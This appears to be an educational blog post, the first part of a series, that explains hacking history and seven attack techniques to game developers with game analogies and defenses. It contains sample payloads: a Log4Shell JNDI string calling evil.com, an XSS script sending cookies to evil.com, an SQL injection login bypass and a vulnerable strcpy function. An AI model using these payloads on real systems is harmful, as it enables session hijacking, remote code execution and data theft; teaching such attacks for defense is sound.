







[](https://hits.sh/epheria.github.io/posts/SecurityHacking01/)

## Introduction

If you are a game developer, you are familiar with words like glitch and exploit. Speedrun techniques passing through walls, inventory duplication bugs, infinite health via memory manipulation. All these are **techniques to make the game work in unintended ways**. And this is the essence of hacking.

When hearing the word Security, most people easily think "it's not my field". But game developers are the ones standing on the front line of security. Game servers must handle millions of concurrent users, client-server communication is always exposed to risk of tampering, and cheaters constantly find new attack vectors.

This series is a 2-part article penetrating the core of cyber security from a **game developer's perspective**. Part 1 dissects the history and techniques of hacking from the attacker's viewpoint, and Part 2 covers principles and practical skills of security from the defender's viewpoint.

| Part | Title | Core Topic |
|---|------|----------|
| Part 1 (This article) | Fog of War | History of Hacking, Dissection of 7 Attack Techniques |
| Part 2 | Art of Shield | Anti-cheat, Cyber Security, AI Security |

You must know the enemy to block them. First, let's step into the **Fog of War**.

---

## Part 1: What is Hacking

### Definition of Hacking

> **Hacking is the art of making a system work in ways it was not intended to.**

Applying this definition to games fits surprisingly well. Using a wall-clipping glitch in a speedrun is reaching the goal via a path unintended by developers. Using an inventory duplication bug is abusing a design flaw in the item system. Editing memory directly to make health infinite is arbitrarily manipulating the program's runtime state.

The etymology of hacking goes back to the Tech Model Railroad Club at MIT in the 1960s. At that time, the word "hacking" meant **creative problem solving**, dealing with systems cleverly without being bound by existing rules or methodologies. Early hackers (Phone Phreakers) manipulating telephone systems also started from curiosity and spirit of inquiry, not aiming for crime from the beginning.

The important thing is that **hacking itself is not a crime**. Hacking is a skill, and depending on the intent of use, it can be security research or cyber crime. Just like a knife can be a cooking tool or a weapon.

### Classification of Hackers

Hackers are largely classified into three categories based on their intent and activity area. Using game analogies makes understanding much easier.

- **White Hat**: Security experts who legally find and report system vulnerabilities. Like **QA Testers** in games. They find bugs but don't abuse them, reporting to the dev team to help fix them.

- **Grey Hat**: Hackers operating on the legal borderline. They discover vulnerabilities for rewards, or sometimes test systems without permission. Similar to **Speedrunners** in games. If they find a glitch, they disclose it to inform the community, but it might ruin the game economy.

- **Black Hat**: Cyber criminals invading systems for malicious purposes. Like **Cheaters** in games. They use hacks to ruin other players' experience, destroy the game economy, and pursue their own profit.



In reality, this boundary is more ambiguous than you think. As Bug Bounty programs become active, many hackers in the grey hat area are turning to white hats. Major companies like Google, Microsoft, Apple pay thousands to hundreds of thousands of dollars for discovering vulnerabilities. Game companies too. Valve, Riot Games, Epic Games run their own bug bounty programs encouraging contributions from security researchers.

---

## Part 2: Analysis of Famous Hacking Incidents -- Records of Cyber Battlefield

If you don't know history, you repeat the same mistakes. This section analyzes major incidents that became turning points in cyber security history. Interpreting each incident with game developer analogies will make attack patterns and principles much clearer.

### 1. Morris Worm (1988) -- The First Massive Infection of the Internet

**Background**: On November 2, 1988, Cornell graduate student Robert Tappan Morris wrote a program to measure the size of computers connected to the Internet. This program was designed to replicate itself to other computers using known vulnerabilities in Unix systems (sendmail, fingerd, rsh/rexec).

The problem was a **fatal flaw in the control mechanism of self-replication**. To prevent duplicate infection on already infected systems, Morris designed the worm to check for the existence of an existing process. However, fearing administrators might fool the worm with fake processes, he wrote code to **unconditionally reinfect with a 1 in 7 chance** regardless of the check result.

**Game Analogy**: This is exactly like **"Infinite Duplication Bug on Launch Day"**. Imagine a bug in an MMORPG where killing a monster spawns 2 new ones. It starts with one or two, but increases exponentially until the server cannot handle it. The Morris Worm followed the same pattern. Dozens, hundreds of copies of the worm ran on a single system, exhausting CPU and memory.



**Damage**: About 6,000 (approx. 10%) of the 60,000 computers connected to the Internet at the time were infected. Infected systems suffered severe performance degradation, and many systems stopped completely. Recovery costs amounted to millions of dollars.

**Lesson**: This incident led to two important results. First, **CERT (Computer Emergency Response Team)** was established under the US Department of Defense, setting up a systematic response system for cyber security incidents. Second, the **danger of "unintended recursion"** became known worldwide. Morris claimed no malicious intent, but consequently caused the first massive security incident in Internet history. He became the first person convicted under the Computer Fraud and Abuse Act (CFAA).

### 2. SolarWinds Supply Chain Attack (2020) -- Backdoor Hidden in Official Patch

**Background**: In December 2020, security firm FireEye discovered their systems were breached. The investigation revealed the entry path of the attack, which was surprisingly an **official update** of IT monitoring software called **SolarWinds Orion**.

The attacker (APT29/Cozy Bear, suspected to be part of Russian intelligence SVR) infiltrated SolarWinds' build system and inserted malicious code into the software build process. Since this modified update was distributed with SolarWinds' official digital signature applied, most security solutions initially failed to detect it.

**Game Analogy**: This is like **"Cheat codes included in an official patch"**. You received an official game update via Steam or PlayStation Store, but someone planted a backdoor inside that update. From the player's perspective, there is no reason to doubt as it came through official channels.



**Damage**: About 18,000 organizations using SolarWinds Orion installed the malicious update. Among them were key government agencies like US DoD, Treasury, Commerce, DHS, and Fortune 500 companies like Microsoft, Intel, Cisco. Attackers roamed inside these systems undetected for about 9 months.

**Lesson**: This incident nakedly exposed the **vulnerability of Supply Chain trust**. No matter how perfect your own security is, if the supply chain of dependent software is breached, everything collapses. Same in game development. Third-party SDKs, middleware, Asset Store plugins -- all external dependencies we trust and use can become potential attack vectors.

### 3. Log4Shell (2021) -- Zero-day Started in Minecraft

**Background**: In December 2021, a fatal vulnerability (CVE-2021-44228) was discovered in Apache Log4j library. Log4j is the most widely used logging library in the Java ecosystem, running on billions of devices.

The core of the problem was Log4j's **JNDI (Java Naming and Directory Interface) Lookup** feature. This feature automatically interpreted strings of specific patterns included in log messages, loading and executing Java classes from external servers.

**Game Analogy**: This is not just a simple analogy but **an incident that actually happened in Minecraft**. Minecraft servers run on Java and use Log4j. If a player enters a string like the following in the game chat window:

```
${jndi:ldap://evil.com/exploit}
```

The moment the server logs this string, Log4j performs JNDI Lookup, downloading and executing malicious code from the attacker's server. **The entire server could be hijacked with a single chat message.**



**CVSS Score**: 10.0 (Highest Risk). In CVSS (Common Vulnerability Scoring System), 10.0 means "easily exploitable remotely without authentication, allowing complete system takeover".

**Lesson**: Log4Shell dramatically showed the **risk of library dependencies**. Most developers didn't even know Log4j was included in their projects. Even if not used directly, frameworks or libraries used internally depended on Log4j. The same problem exists in game development. It is almost impossible to perfectly identify what libraries are hidden inside numerous middleware and SDKs we use, and what vulnerabilities those libraries have.

### Cyber Security Incident Timeline

Besides the three incidents above, there are numerous events that became important turning points in cyber security history. The timeline below summarizes key events.

| Year | Incident | Type | Game Analogy | Impact |
|------|------|------|----------|------|
| 1988 | Morris Worm | Self-replication | Infinite Duplication Bug | Establishment of CERT |
| 2010 | Stuxnet | Nation Cyber Weapon | Cheat attacking only specific boss | Destruction of Iranian centrifuges |
| 2017 | WannaCry | Ransomware | Lock inventory & demand ransom | 300k devices infected in 150 countries |
| 2020 | SolarWinds | Supply Chain Attack | Backdoor in official patch | Infiltration of US Gov agencies |
| 2021 | Log4Shell | Zero-day | Chat window server hacking | CVSS 10.0 |
| 2021 | Kaseya | Supply Chain+Ransomware | Chain attack via MSP | 1,500 companies damaged |
| 2023 | MOVEit | Zero-day | File transfer vulnerability | 2,500 organizations data leak |
| 2024 | CrowdStrike | Update Flaw | Anti-cheat crashing the game | Worldwide Blue Screen |

There is a pattern to note in this timeline. As time goes by, the scale and sophistication of attacks increase exponentially, and **Supply Chain Attacks** are increasingly emerging as a core threat.

---

## Part 3: Complete Guide to Hacking Techniques -- Attacker's Arsenal


Now we dissect 7 most important attack techniques in modern cyber security. Each technique is explained with the same structure: One-line summary, Game analogy, Detailed principle, Real case, Brief defense method.

### 1. SQL Injection -- Entering Cheat Codes in Chat

> **One-line Summary**: Attack inserting malicious SQL code into database queries to perform authentication bypass, data theft, or data manipulation.

**Game Analogy**: Imagine entering `/give gold 99999` in MMORPG chat and actually getting gold. The developer assumed only normal text would be entered in chat, but the attacker entered a **command** interpreted by the system. SQL Injection is exactly the same principle. When a web application directly inserts user input as part of an SQL query, attackers manipulate the database at will by including SQL code in the input.

#### Detailed Principle

In a general login process, the server executes an SQL query like this:

```sql
SELECT * FROM users WHERE username = 'entered_id' AND password = 'entered_password'
```

If an attacker enters `' OR '1'='1' --` in the ID field, the query is modified as follows:

```sql
-- Vulnerable Query (Directly inserting user input)
SELECT * FROM users WHERE username = '' OR '1'='1' -- ' AND password = 'anything'

-- Attacker Input: ' OR '1'='1' --
-- Result: Returns all user data!
```

Here `--` is the comment symbol in SQL, so the password verification part after it is completely ignored. Since `'1'='1'` is always true, eventually all rows of the table are returned.

Secure code uses **Parameterized Query** to treat input as data, not code:

```sql
-- Secure Query (Parameterized Query)
SELECT * FROM users WHERE username = ? AND password = ?
-- Input is treated as data, not code
```

In this method, whatever string the attacker enters, it is not interpreted as an SQL command but treated only as pure string data.

#### Variations of SQL Injection

SQL Injection has various variations beyond simple authentication bypass:

- **Union-based**: Inserting `UNION SELECT` statement to query data from other tables together
- **Blind SQL Injection**: When query results are not directly displayed, extracting data character by character by observing differences in true/false responses
- **Time-based Blind**: Using response time differences (`SLEEP` function etc.) to extract information
- **Second-order**: Not executed immediately, but delayed attack executed when used in another query later

**Real Case**: The 2008 Heartland Payment Systems hack was one of the largest data breach incidents in history where about 130 million credit card information were leaked via SQL Injection. Attacker Albert Gonzalez was sentenced to 20 years in prison.

**Brief Defense**:
- Use Parameterized Query or ORM (Object-Relational Mapping)
- Input Validation and Escape handling
- Set database account with Principle of Least Privilege
- Deploy WAF (Web Application Firewall)

### 2. XSS (Cross-Site Scripting) -- Showing Fake UI on Other Player's Screen

> **One-line Summary**: Attack injecting malicious scripts into web pages to execute in other users' browsers.

**Game Analogy**: Like popping up a fake "Please enter password" popup on another player's HUD (Head-Up Display). The victim cannot distinguish if this is the game's official UI or a fake UI inserted by an attacker. Because the fake UI also runs inside the game client. XSS is the same. The script inserted by the attacker runs **within the context of that website**, so the browser treats it as normal code of that site.

#### 3 Types

**Stored XSS**: Most dangerous type. Attacker stores malicious scripts in boards, comments, profiles, etc. The script executes for **all users** visiting that page. Like posting on a guild board executes malicious code on clients of all guild members reading it.

**Reflected XSS**: Injecting script into URL parameters, executing only for users clicking that link. For example, sending a URL like `https://example.com/search?q=<script>alert('XSS')</script>` to a victim executes the script on the search result page.

**DOM-based XSS**: Occurs when client-side JavaScript, not server, handles URL or user input insecurely. Malicious code is not included in server response, but executed while client JavaScript dynamically manipulates the page.

#### Code Example

```html
<!-- Comment written by attacker on board -->
<script>
  // Steal cookie → Send to attacker server
  new Image().src = "https://evil.com/steal?c=" + document.cookie;
</script>
```

If another user reads the comment containing the script above, the script runs in that user's browser. `document.cookie` may contain session tokens, and if this is sent to the attacker's server, the attacker can hijack the victim's session and log in as that user.



**Real Case**: **Samy Worm** on MySpace in 2005 is the most famous incident in XSS history. The JavaScript worm written by 19-year-old Samy Kamkar automatically added all users visiting his profile as friends and copied the same worm to their profiles. **Over 1 million users infected in 24 hours**, forcing MySpace to shut down the entire service.

**Brief Defense**:
- Output Encoding: HTML entities, JavaScript escape, etc.
- CSP (Content Security Policy): Specify allowed script sources to browser
- HttpOnly Cookie: Set cookies inaccessible from JavaScript
- Input Validation and sanitization

### 3. Buffer Overflow -- Modifying Stats by Overflowing Inventory Slots

> **One-line Summary**: Attack inputting data exceeding program's memory buffer size to overwrite adjacent memory and modify program execution flow.

**Game Analogy**: Suppose character inventory has 10 slots. In memory structure, character stats (Attack, Defense, Health) are stored right after inventory. If you can forcibly put an 11th item, that data overflows inventory area and overwrites stats area. Attackers use this principle to write desired values (e.g. Attack 99999) to exact locations.

#### Detailed Principle

When a program calls a function, Local Variables, Saved Frame Pointer (Saved EBP), and **Return Address** are stored in order on Stack memory. Return Address points to **location of next instruction to execute** after current function ends.

Buffer Overflow attack inputs data larger than designed size into local buffer, overwriting Return Address in upper stack area with an address desired by attacker. When function returns, program executes **code at address specified by attacker** instead of original execution point.

```
 Normal State                  After Overflow
┌──────────────┐              ┌──────────────┐
│  Return Addr │  ←────────   │  0xDEADBEEF  │ ← Attacker Code Addr!
├──────────────┤              ├──────────────┤
│  Saved EBP   │              │  AAAAAAAAAA  │ ← Overwritten
├──────────────┤              ├──────────────┤
│  Buffer[16]  │              │  AAAAAAAAAA  │ ← Input Data
│  "Hello"     │              │  AAAAAAAAAA  │
└──────────────┘              └──────────────┘
  ↑ Stack Growth                 ↑ Overflow!
```

#### Vulnerable Code

```c
void vulnerable(char *input) {
    char buffer[16];          // 16-byte buffer
    strcpy(buffer, input);    // Copy without length check!
    // If input exceeds 16 bytes → Overwrite Return Address
}
```

`strcpy` function copies without checking source string length. If `input` exceeds 16 bytes, it overflows `buffer` area and overwrites Saved EBP and Return Address. This is the core of Buffer Overflow.

#### Why Important to Game Developers

Games are often developed in C/C++. Especially code performing manual memory management in Unreal Engine, custom game engines, native plugins can be vulnerable to buffer overflow. If this vulnerability exists in game server, it is possible to hijack server execution flow with packets sent by client.

**Real Case**: Morris Worm in 1988 used buffer overflow in Unix `fingerd` service. **SQL Slammer** worm in 2003 infected 75,000 servers worldwide in 10 minutes via Microsoft SQL Server buffer overflow. A single UDP packet of 376 bytes was all it took.

**Brief Defense**:
- ASLR (Address Space Layout Randomization): Randomize memory addresses to prevent attacker from knowing exact address
- DEP/NX (Data Execution Prevention / No-Execute): Block code execution in data areas
- Stack Canaries: Place random value before return address to detect overwriting
- Use safe functions: `strncpy` instead of `strcpy`, `fgets` instead of `gets`

### 4. Man-in-the-Middle (MitM) -- Eavesdropping and Manipulating Voice Chat

> **One-line Summary**: Attack secretly intercepting or modifying messages between two communicating parties.

**Game Analogy**: Guild members A and B are discussing raid strategy on party voice chat. But someone secretly intercepts the voice chat in the middle and listens to everything. Furthermore, when A says "Go right", they change it to "Go left" and deliver to B. Both think they are talking directly to each other, but actually communicating via the attacker.

#### Detailed Principle

Core of MitM attack is **seizing communication path**. Attackers place themselves between two parties by various methods:

- **ARP Spoofing**: Redirect traffic via self by manipulating ARP (Address Resolution Protocol) table in local network
- **DNS Spoofing**: Induce victim to fake server by forging DNS response
- **Wi-Fi Eavesdropping**: Intercept unencrypted traffic on public Wi-Fi
- **SSL Stripping**: Neutralize encryption by downgrading HTTPS connection to HTTP



**Real Case**: In 2015, Lenovo pre-installed adware called **Superfish** on their laptops. This software installed a **self-signed root certificate** on the system to intercept HTTPS traffic. This essentially enabled MitM attack on all HTTPS communications. More seriously, Superfish's certificate private key was identical on all Lenovo laptops, and as this key was extracted and disclosed, **HTTPS communications of all users** using those laptops were exposed to risk.

**Brief Defense**:
- HTTPS/TLS: Prevent eavesdropping and tampering with communication encryption
- Certificate Pinning: Trust only specific certificates
- HSTS (HTTP Strict Transport Security): Force browser to always use HTTPS
- Use VPN: Protect communication on public networks

### 5. DDoS (Distributed Denial of Service) -- Simultaneous Login of 1 Million Bots

> **One-line Summary**: Attack disrupting normal service by overloading server or network with massive traffic.

**Game Analogy**: Imagine 1 million bots logging in simultaneously on WoW (World of Warcraft) expansion launch day to crash the server. Server congestion on launch day is unintended, but DDoS is causing this **intentionally**. Normal players cannot connect, and service is paralyzed.



#### DDoS Types

DDoS attacks are largely classified into three categories based on OSI model layers:

**Volume-based Attacks**: Attacks depleting target server's **bandwidth**. UDP Flood, DNS Amplification, NTP Amplification etc. Especially Amplification attacks abuse protocol characteristics inducing large response with small request. For example, in DNS Amplification, attacker sends query to DNS server forging source IP as victim's IP, then DNS server sends response amplified dozens of times to victim.

**Protocol Attacks**: Attacks depleting server's **connection resources**. SYN Flood is representative, sending massive amounts of only first step (SYN) of TCP 3-way Handshake and not completing remaining steps, filling server's Half-open Connection table. In games, it's like sending tens of thousands of party requests but not accepting/declining, paralyzing party system.

**Application Layer Attacks**: Attacks depleting server's **processing power**. HTTP Flood sends massive normal HTTP requests, and Slowloris keeps HTTP connections extremely slow to exhaust server's concurrent connection count. In games, it's like 100,000 people initiating quest dialogue with NPC simultaneously to stop server logic.

**Real Case**: In 2016, **Mirai Botnet** infected IoT devices (CCTV, Routers, DVRs etc.) using default passwords to form a massive botnet. This botnet attacked DNS provider Dyn, paralyzing major Internet services like Twitter, Netflix, Spotify, Reddit, GitHub for hours. Attack traffic reached max **1.2Tbps**.

**Brief Defense**:
- CDN (Content Delivery Network): Prevent single server overload by distributing traffic
- Traffic Scrubbing: Professional service filtering malicious traffic
- Rate Limiting: Limit request count per IP
- Anycast: Assign same IP address to multiple servers to distribute load

### 6. Social Engineering -- The Strongest Weapon is Psychology, Not Code

> **One-line Summary**: Attack obtaining information or system access by exploiting human psychological vulnerabilities, not technology.

**Game Analogy**: Have you received a whisper in MMORPG saying "I'm GM checking accounts. Give me password"? This is the most primitive form of social engineering. No matter how perfect security system is technically built, if you can fool the **human** operating that system, everything crumbles.

Legendary hacker Kevin Mitnick said:

> "I didn't hack the code, I hacked the people."

He infiltrated dozens of corporate systems for years until arrested by FBI, and the tool he used most often was not code but **telephone**. He obtained passwords and access rights from employees by impersonating IT support, pretending to be a new employee, or acting out emergency situations.

#### Types of Social Engineering

**Phishing**: Sending fake emails mimicking official emails to induce to fake login page. Messages like "Abnormal access detected on your account. Change password immediately" are typical. In games, making a fake site looking like official game forum to steal account info.

**Spear Phishing**: If general phishing targets unspecified many, spear phishing precisely targets **specific individual**. It investigates target's SNS, LinkedIn, internal org chart etc. to write customized attack messages. Reflects actual work context like "Team Manager Kim, attaching project report mentioned in last week's meeting".

**Pretexting**: Approaching target creating fake identity or scenario. Impersonating IT support saying "Need password for system update", or impersonating boss requesting urgent fund transfer. BEC (Business Email Compromise) attacks fall into this category, and according to FBI, damages from BEC exceeded 50 billion dollars from 2019 to 2023.

**Baiting**: Attack leaving USB drive with malicious software in company parking lot or lobby. USB has labels arousing curiosity like "Salary Increase List.xlsx" or "Confidential Project Plan.pdf". If someone picks it up and connects to company computer, malicious code runs.

**Tailgating**: Physical intrusion method following right behind employee passing security door. Asking simply "Forgot my pass, can you open it?" grants access to secure area.

**Real Case**: In July 2020, Twitter suffered the largest security breach in history. Attackers accessed internal admin tools via **phone-based social engineering** on Twitter employees. Through this, they hijacked accounts of world-famous celebrities and companies like Barack Obama, Joe Biden, Elon Musk, Bill Gates, Apple official account, and posted Bitcoin scam messages. Starting point of attack was not a line of code but **one phone call**.

**Brief Defense**:
- Security Awareness Training: Including regular phishing simulations
- MFA (Multi-Factor Authentication): Need additional authentication even if password leaked
- Suspicious Request Verification Process: "Confirm by phone if boss requests transfer by email" etc.
- Strengthen Physical Security: Access control, Disable USB ports

### 7. Zero-day Exploit -- Invincible Bug Discovered on Launch Day

> **One-line Summary**: Attack where attacker discovers vulnerability unknown to software developers first and abuses it before patch is released.

**Game Analogy**: Imagine someone discovers and abuses an **invincible bug** on game launch day that dev team doesn't know. Dev team doesn't even know existence of this bug, and even if known, it takes time to make and deploy hotfix. Meanwhile, cheater roams freely in invincible state. **Complete defense is very difficult until patch is released.** Risk can be mitigated with network segmentation, behavior-based detection, WAF/IPS, virtual patching etc., but fundamental solution is possible only after patch deployment.

#### Origin of Name "Zero-day"

The name "Zero-day" comes from meaning developers are given **0 days** to fix. General vulnerabilities go through "Responsible Disclosure" process after discovery. Researcher discovers vulnerability, notifies vendor first, keeps private for certain period (usually 90 days) until patch is out. But Zero-day is vulnerability **abused immediately upon discovery** without this process.

#### Zero-day Lifecycle

1. **Vulnerability Discovery**: Attacker or security researcher discovers unknown vulnerability in software
2. **Exploit Development**: Develop attack code that can actually abuse discovered vulnerability
3. **In-the-wild Abuse**: Attacker starts using exploit on actual targets
4. **Vendor Awareness**: Attack detected or vendor learns existence of vulnerability by security researcher
5. **Patch Development & Distribution**: Vendor develops fix patch and distributes to users
6. **User Patch Application**: End user installs patch to resolve vulnerability

Period between step 3 and 4 is **"Zero-day Window"**. During this period, attackers can freely attack virtually defenseless systems. In games, it's the period when cheater uses invincible bug but dev team doesn't even know its existence.

#### Zero-day Market

Zero-day exploits have tremendous value due to scarcity and destructive power. Market trading them is largely divided into three:

- **White Market**: Sell directly to vendor via Bug Bounty programs. Can receive thousands to hundreds of thousands of dollars via Google Project Zero, HackerOne etc.
- **Grey Market**: Brokers like Zerodium mediate sale of exploits to government agencies or law enforcement. iOS remote jailbreak zero-day price reaches **up to 2 million dollars**.
- **Black Market**: Traded on Dark Web to cyber crime organizations or state hacking groups.

**Real Case**: **ProxyLogon** vulnerability of Microsoft Exchange Server in 2021 was abused by Chinese state-sponsored hacker group HAFNIUM. Tens of thousands of Exchange servers worldwide were breached before patch distribution. In 2023, **MOVEit Transfer** zero-day vulnerability was abused by Russian ransomware group Cl0p leaking data from over 2,500 organizations.

**Brief Defense**:
- Zero Trust Architecture: Security model not trusting internal network either
- Behavioral Detection: Detect abnormal behavior patterns not signatures
- Rapid Patch Application: Establish process to apply patches as fast as possible upon release
- Bug Bounty Program: Encourage external researchers to report vulnerabilities for good purposes

### Comprehensive Comparison Table

